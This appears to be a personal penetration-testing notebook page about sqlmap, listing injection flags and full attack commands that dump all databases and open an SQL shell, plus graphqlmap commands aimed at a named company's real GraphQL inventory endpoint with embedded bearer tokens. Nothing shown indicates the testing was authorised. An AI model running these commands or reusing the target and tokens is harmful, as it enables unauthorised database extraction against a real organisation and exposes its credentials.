 ```yaml
---
date: 2022-06-28
modified: 2022-07-14
---
```

## Metadata
up:: [[sqlmap]]
status:: ing

---
## Record Usage
**Freq Param**
```bash
--data="id=123"
--level 5 --risk 3
--sql-shell
--delay 0.2 --smart 
--force-ssl --fresh-queries
--random-agent # victim may store User-Agent, This setting may cause missing
--threads 10
-p <param>
--ignore-redirect

-T4 --dbs --tables --level 5 --risk 3 --sql-shell --smart --fresh-queries
```
[SQLMap - Cheetsheat - HackTricks](https://book.hacktricks.xyz/pentesting-web/sql-injection/sqlmap)
**Used Param**
```bash
--no-cast
--randomize
--hex
```
[[sqlmap.Temper]]
**POST with JSON and STAR sign**
`-r REQUESTFILE      Load HTTP request from a file`
> 手動在要測試的參數的值，後綴加上 `*` 用以指定參數，使用帶 json 的，sqlmap 不支援 `-p` 指定參數，必須用星號
```bash
$ sqlmap -r rq.txt -T4 --current-db --dbs --tables --dump --level 5 --risk 3 --threads 10 --sql-shell --dbms=Mysql

# with Burp Listener
$ sqlmap -r try3woutstar.txt -T4 --random-agent --force-ssl --banner --current-db --dbs --tables --dump-all --level 5 --risk 3 --threads 10 --sql-shell --fresh-queries --proxy="http://192.168.3.19:9527" -v 3 --randomize

graphqlmap -u graphqlmap -u https://www.caco.com.tw/ims030/ims/storeinventory/graphql/listbyd1r1storeitemno -v --method POST  -v --method POST --headers '{"Authorization" : "Bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ0ZXh0Ijoibm8gc2VjcmV0cyBoZXJlID1QIn0.JqqdOesC-R4LtOS9H0y7bIq-M8AGYjK92x4K3hcBA6o"}'

```

```
graphqlmap -u https://www.caco.com.tw/ims030/ims/storeinventory/graphql/listbyd1r1storeitemno -v --method POST --headers '{"Authorization" : "Bearer eyJ0eXAiOiJKV1QiLCJhbGciOiJSUzI1NiJ9.eyJ1cG4iOiLjhIzwqaWW6IOE6ZOo6aC38JGEvuaPmPCimLjwl6q-8K2OqfCQmqXjiKvwqpek2Y3wpKGn5p2nIiwic3ViIjoiU0VDVVJJVFlfTE9HSU5fVEVNUCIsImdyb3VwcyI6WyJ0ZW1wb3JhcnkiXSwiY21wdWlkIjoiQjEwRjAwMDAyMSIsInN0b3JldWlkIjoiQjEwRjAwMDBYRCIsInVpZCI6IuOEjPCppZbog4Tpk6jpoLfwkYS-5o-Y8KKYuPCXqr7wrY6p8JCapeOIq_Cql6TZjfCkoafmnaciLCJlbnRhY2N0dWlkIjoiY29tLmNhY28uZXJwIiwid2Vic2l0ZXVpZCI6IkpyVk52SG1TQjg2ZHlWZngiLCJ1c2VyaWQiOiJ0ZW1wb3JhcnkiLCJ1c2VybmFtZSI6InRlbXBvcmFyeSIsImlhdCI6MTY1Nzg0OTU0MCwiZXhwIjoxNjU3ODc4MzQwLCJqdGkiOiI3NmU4N2QxOS1hNjVmLTRiMTgtODQ1ZC1kZTkyZTlhZmM0NTciLCJpc3MiOiJodHRwczovL3d3dy5jYWNvLmNvbS9pc3N1ZXIiLCJhdWQiOiJhbGwifQ.Fj-MN1SI_qeKVIBEbHbSaPPa70G9TQTm9IJ5a7dFB2NoF5CutJN1j61FORrKxkn5bPON1pjrk8tcXl7sAjtsArOiCcBj-nalbEvBtQg_vpZQu1BW3W79JjE8wt_g_FHhS7MBctMdFvUl61SbWuLx-eY9sFBjLXHGDTU34OI2rE-GtKKHEdh8utAq9DPtWGR8CWiK_rrCBDLTVKZ0Mln_jobrBpaA41kiK0I6S55NCZf58-L5PaNSg9898J3AcAinp1D06rNRUWLAhpU4UyDH8OMWQPUHB-vu5wvWrk-n0F4bIBjwbVfzhBw4mfjcrG_esTQ5eTLwpxAsrVz9k4rMRA"}'
```


